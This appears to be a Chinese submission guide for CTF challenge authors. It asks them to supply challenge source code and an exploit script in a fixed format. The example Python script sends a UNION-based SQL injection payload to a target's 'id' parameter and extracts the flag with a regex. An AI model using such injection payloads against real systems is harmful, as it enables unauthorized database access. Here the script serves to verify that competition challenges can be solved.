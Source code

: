 题目源码
----

需要在此处把环境中所有的程序源码投递一份，比如PHP就直接压缩网站根目录，Java的给出项目工程文件打包等。

![](14_%E5%A1%AB%E5%86%99%E6%8C%87%E5%8D%97_image.png)

Exploit
-------

Exp脚本，请务必按照此格式编写 EXP，接收 目标IP，目标端口，预期FLAG 三个参数，**如写死这些参数，直接不通过！**

**所有Web题目都需要提交EXP脚本！**

```python
#!/usr/bin/python
#  -*- coding: utf-8 -*-
import re
import sys
import requests

# 输入为靶机 IP 和端口以及要验证的 flag
HOST = sys.argv[1]
PORT = sys.argv[2]
FLAG = sys.argv[3]

# exp 函数
def exp(ip, port):
    # 构造 Payload
    payload = "3 union select 1,flag from flag limit 1"

    # 请求靶机
    r = requests.get("http://%s:%s/?id=%s" % (ip, port, payload))
    # print(r.text)

    # 匹配 FLAG
    match_group = re.findall("DASCTF{(.*?)}", r.text)
    flag = match_group[0]

    return flag


# 主逻辑
if __name__ == '__main__':
    flag = exp(HOST, PORT)
    # print(flag)
    # 比较得出的 flag 是否是想要的 flag
    assert flag == FLAG
    print("Pass!")
```

